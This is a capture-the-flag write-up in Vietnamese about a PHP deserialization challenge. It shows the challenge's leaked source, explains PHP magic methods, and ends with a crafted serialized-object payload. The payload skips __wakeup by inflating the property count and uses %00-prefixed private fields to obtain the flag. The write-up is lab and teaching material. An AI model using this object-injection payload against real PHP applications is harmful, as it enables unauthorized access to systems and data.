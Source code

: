 Challenge cho ta trang web này.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/bbedda76-2e4b-43e0-90ec-1691482d8bcf)

Sau khi kiểm tra một hồi thì mình thấy không có gì đặc biệt ngoại trừ ta có thể điều khiển cuộn len.Nên là mình dirsearch xem có gì mới không.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/eabc904c-9773-46ba-bcf6-0c19084811c4)

Ra kết quả là có file www.zip.

```index.php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
```

Đầu tiên giá trị của biến $_GET['select'] với tham số là select được gán cho biến $select thông qua method GET.Tham số select sau khi gửi đi sẽ được deserialize bằng hàm unserialize và gán vào biến $res.

```class.php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

Đoạn code này sử dụng method magic.

__construct(): Hàm __construct() sẽ tự đông được gọi khi ta khởi tạo 1 đối tượng( còn được gọi là hàm khởi tạo).

__wakeup(): Phương thức __wakeup() sẽ được gọi khi chúng ta unserialize() đối tượng. Chúng thường được sử dụng để thực thi một hoặc nhiều hành động nào đó khi đối tượng được unserialize()

__destruct(): Được gọi khi một đối tượng bị hủy. Mặc định khi kết thúc chương trình hoặc khi ta khai báo mới đối tượng đó sẽ bị hủy bỏ và gọi đến method __destruct().

Đầu tiên biến select bị unserialize(), __wakeup() sẽ được gọi tạo một 1 đối tượng của class Name với username là guest.Việc khởi tạo 1 đối tượng làm cho __construct() được tự động gọi tạo thêm password là yesyes.

Tiếp theo là __destruct(), nếu username là admin, password là 100 thì t lấy được flag.

```
<?php
 
class  Name {
     private  $username = 'nonono' ;
     private  $password = 'yesyes' ;
 
    public  function  __construct ( $username , $password ) {
         $this ->username = $username ;
         $this ->password = $password ;
    }
}
$a = new Name( 'admin' , 100 );
echo serialize($a);
 
?>

//output: O:4:"Name":2:{s:14:"NullNameNullusername";s:5:"admin";s:14:"NullNameNullpassword";i:100;}

```

Sau đó thì mình thử sumbit, nhưng mà ko được. Mình có đọc wu và có cái trick này.Là khi desrializing 1 chuỗi thì value của số thuộc tính thường lớn hơn số thực khi mà output của thuộc tính, việc thực hiện hàm __wakeup() sẽ được bỏ qua. Ta chuyển từ 2 thành 3 có thể bypass được.

Các trường khi được khai báo bằng private là chỉ có thể access từ bên trong class, không hiển thị trong lớp con đó và trong các đối tượng của lớp đó.Do đó khi serialize trường của một trường private, cả tên lớp và trường đều có tiền tố là %00.

payload: `O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/bdf7f1cc-5507-4caf-a25d-a9da0a1399b5)


